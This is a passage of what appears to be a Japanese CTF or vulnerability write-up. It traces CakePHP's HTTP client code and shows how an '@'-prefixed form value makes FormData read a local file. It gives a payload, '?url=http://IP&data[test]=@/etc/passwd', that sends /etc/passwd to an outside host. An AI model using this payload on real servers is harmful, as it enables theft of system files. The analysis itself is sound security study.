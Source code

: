 ```php
    ...

    /**
     * Get/set the body/payload for the message.
     *
     * Array data will be serialized with Cake\Http\FormData,
     * and the content-type will be set.
     *
     * @param string|array|null $body The body for the request. Leave null for get
     * @return mixed Either $this or the body value.
     */
    public function body($body = null)
    {
        if ($body === null) {
            $body = $this->getBody();

            return $body ? $body->__toString() : '';
        }
        if (is_array($body)) {
            $formData = new FormData();
            $formData->addMany($body);
            $this->header('Content-Type', $formData->contentType());
            $body = (string)$formData;
        }
        $stream = new Stream('php://memory', 'rw');
        $stream->write($body);
        $this->stream = $stream;

        return $this;
    }
```
`vendor/cakephp/cakephp/src/Http/Client/FormData.php`  
`addMany`メソッドの中で`?data[test]=aaa`を`$name=test`,`$value=aaa`に分解して`$this->add($name, $value);`で`add`メソッドを実行している。  
`add`メソッドの中では`} elseif (is_string($value) && strlen($value) && $value[0] === '@') {`で`?data[test]=@aaa`みたいに`@`から始まっている場合は`$this->addFile($name, $value);`で`addFile`メソッドを実行する。  
`addFile`メソッドで`$value = substr($value, 1);`で`@`を取り除いて`$content = file_get_contents($value);`でファイルを読みだす。  
つまり、`?url=http://IP&data[test]=@/etc/passwd`とすれば`/etc/passwd`をdataとして`http://IP`にPOSTしてくれる！！！   
これでLocal File Disclosureができる！！！！  
```php
    /**
     * Add a new part to the data.
     *
     * The value for a part can be a string, array, int,
     * float, filehandle, or object implementing __toString()
     *
     * If the $value is an array, multiple parts will be added.
     * Files will be read from their current position and saved in memory.
     *
     * @param string|\Cake\Http\Client\FormData $name The name of the part to add,
     *   or the part data object.
     * @param mixed $value The value for the part.
     * @return $this
     */
    public function add($name, $value = null)
    {
        if (is_array($value)) {
            $this->addRecursive($name, $value);
        } elseif (is_resource($value)) {
            $this->addFile($name, $value);
        } elseif (is_string($value) && strlen($value) && $value[0] === '@') {
            trigger_error(
```